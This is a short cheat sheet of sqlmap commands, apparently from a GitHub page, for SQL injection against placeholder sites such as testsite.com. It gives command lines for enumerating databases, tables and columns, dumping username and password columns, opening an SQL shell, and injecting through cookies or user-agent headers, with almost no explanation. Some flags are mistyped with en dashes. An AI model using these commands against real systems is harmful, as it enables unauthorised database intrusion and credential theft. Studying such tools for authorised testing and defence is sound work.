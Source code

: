 # Cheat Sheet

**Easy Scanning option**
<pre>sqlmap -u "http://testsite.com/login.php"</pre>

**List all databases at the site**
<pre>sqlmap -u "http://testsite.com/login.php" --dbs</pre>

**List all tables in a specific database**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db --tables</pre>

**List all columns in a table**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump</pre>

**Dump only selected columns**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
</pre>

**Dump a table from a database when you have admin credentials**
<pre>sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
</pre>

**Add Technique**
<pre>sqlmap -u "http://testsite.com/home.php?id=" --dbs --technique=U -p "id"</pre>

**Get SQL Shell**
<pre>sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell </pre>

**Cookie Injection**
<pre>sqlmap --cookie="user_id=1" -u "http://localhost/index.php" -p "user_id" --level 3 </pre>

**User Agent Injection**
<pre>sqlmap  -u "http://localhost/index.php" --level 3 </pre>

# Switches

**--user-agent**

**--referer**

**--headers**

**--technique= U | B | E**